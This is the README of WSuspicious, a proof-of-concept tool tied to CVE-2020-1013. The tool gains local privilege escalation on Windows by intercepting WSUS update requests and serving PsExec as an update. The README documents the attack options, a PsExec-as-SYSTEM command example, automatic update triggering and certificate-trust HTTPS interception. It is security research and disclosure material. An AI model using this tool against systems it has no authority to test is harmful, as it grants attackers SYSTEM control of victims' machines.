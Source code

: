 # WSuspicious

## Summary
This is a proof of concept program to escalate privileges on a Windows host by abusing WSUS.
Details in this blog post: https://www.gosecure.net/blog/2020/09/08/wsus-attacks-part-2-cve-2020-1013-a-windows-10-local-privilege-escalation-1-day/
It was inspired from the WSuspect proxy project: https://github.com/ctxis/wsuspect-proxy

## Acknowledgements
Privilege escalation module written by Maxime Nadeau from GoSecure

Huge thanks to:
* Julien Pineault from GoSecure and Mathieu Novis from ‎SecureOps for reviving the WSUS proxy attack
* Romain Carnus from GoSecure for coming up with the HTTPS interception idea
* Paul Stone and Alex Chapman from Context Information Security for writing and researching the original proxy PoC

## Usage
The tool was tested on Windows 10 machines (10.0.17763 and 10.0.18363) in different domain environments.

```
Usage: WSuspicious [OPTION]...
Ex. WSuspicious.exe /command:"" - accepteula - s - d cmd / c """"echo 1 > C:\\wsuspicious.txt"""""" /autoinstall

Creates a local proxy to intercept WSUS requests and try to escalate privileges.
If launched without any arguments, the script will simply create the file C:\\wsuspicious.was.here

/exe                The full path to the executable to run
				    Known payloads are bginfo and PsExec. (Default: .\PsExec64.exe)
/command            The command to execute (Default: -accepteula -s -d cmd /c ""echo 1 > C:\\wsuspicious.was.here"")
/proxyport          The port on which the proxy is started. (Default: 13337)
/downloadport       The port on which the web server hosting the payload is started. (Sometimes useful for older Windows versions)
				    If not specified, the server will try to intercept the request to the legitimate server instead.
/debug              Increase the verbosity of the tool
/autoinstall        Start Windows updates automatically after the proxy is started.
/enabletls          Enable HTTPS interception. WARNING. NOT OPSEC SAFE. 
				    This will prompt the user to add the certificate to the trusted root.
/help               Display this help and exit
```

### Examples
![WSuspicious Privesc Example gif](https://github.com/GoSecure/WSuspicious/raw/master/docs/privesc.gif)

## Compilation
The ILMerge dependency can be used to compile the application into a standalone .exe file.
To compile and compile the application, simply use the following command:
```
dotnet msbuild /t:Restore /t:Clean /t:Build /p:Configuration=Release /p:DebugSymbols=false /p:DebugType=None /t:ILMerge /p:TrimUnusedDependencies=true
